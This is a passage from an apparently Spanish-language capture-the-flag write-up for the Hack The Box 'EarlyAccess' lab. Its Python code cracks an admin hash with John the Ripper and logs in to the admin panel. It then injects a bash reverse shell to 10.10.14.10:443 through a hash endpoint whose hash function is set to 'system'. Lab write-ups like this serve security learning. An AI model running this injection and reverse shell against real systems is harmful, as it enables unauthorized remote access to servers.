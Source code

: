 ```python

def crack_hash(hash):

	with open('hash', 'w') as file:
		file.write(hash)


	os.system("john -w=/usr/share/wordlists/rockyou.txt hash > pass 2>/dev/null; cat pass | grep \"(?)\" | cut -d' ' -f1 | sponge pass")

	with open('pass', 'r') as file:

		Pass = file.read()

	return Pass.replace('\n','')
```

Con la contraseña ya obtenida, accede al panel de login del usuario admin con la función **Login_admin**, para guardar la sesión y con la función **SendShell** la cual está jugando con la librería **multiprocessing** para utilizar hilos y envía la ReverseShell estando en escucha en la función **Get_Shell**.

```python
Login_admin(pass_admin)

multiprocessing.Process(target=Send_Shell).start()
```

```python
def Login_admin(pass_admin):
	url_login_admin = "http://dev.earlyaccess.htb/actions/login.php"

	data_post = {
		'password': pass_admin
	}

	r = s.post(url_login_admin,data=data_post)

def Send_Shell():

	url_hash = "http://dev.earlyaccess.htb/actions/hash.php"

	data_post = {
		'action': 'hash',
		'redirect': 'true',
		'password': "bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'",
		'hash_function': 'system',
		'debug': 'test'
	}

	r = s.post(url_hash, data=data_post)
```
